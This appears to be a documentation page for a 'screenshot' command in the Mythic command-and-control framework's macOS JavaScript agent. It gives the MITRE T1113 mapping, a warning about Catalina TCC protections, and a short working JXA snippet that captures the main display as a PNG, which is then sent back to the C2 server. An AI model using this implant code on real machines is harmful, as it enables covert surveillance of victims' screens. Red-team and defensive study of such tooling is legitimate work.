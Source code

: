 ```yaml
---
title: "screenshot"
description: "Use the built-in CGDisplay API calls to capture the display and send it back over the C2 channel."
---
```


## Summary

Use the built-in CGDisplay API calls to capture the display and send it back over the C2 channel. 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

<Warning>   
In Catalina+ (10.15+) there are TCC protections against this, so be careful
</Warning>  


### Arguments

## Usage

```
screenshot
```

## MITRE ATT&CK Mapping

- T1113  
## Detailed Summary
This uses API calls to read the current screen the return it to Mythic. This doesn't currently capture _all_ screens though.
```javascript
let cgimage = $.CGDisplayCreateImage($.CGMainDisplayID());
if(cgimage.js === undefined) {
    cgimage = $.CFMakeCollectable(cgimage); // in case 10.15 is messing with the types again
}
if(cgimage.js === undefined){
  return {"user_output":"Failed to get image from display", "completed": true, "status": "error"};
}
let bitmapimagerep = $.NSBitmapImageRep.alloc.initWithCGImage(cgimage);
let capture = bitmapimagerep.representationUsingTypeProperties($.NSBitmapImageFileTypePNG, Ref());
```
The screencapture is chunked and sent back to Mythic.


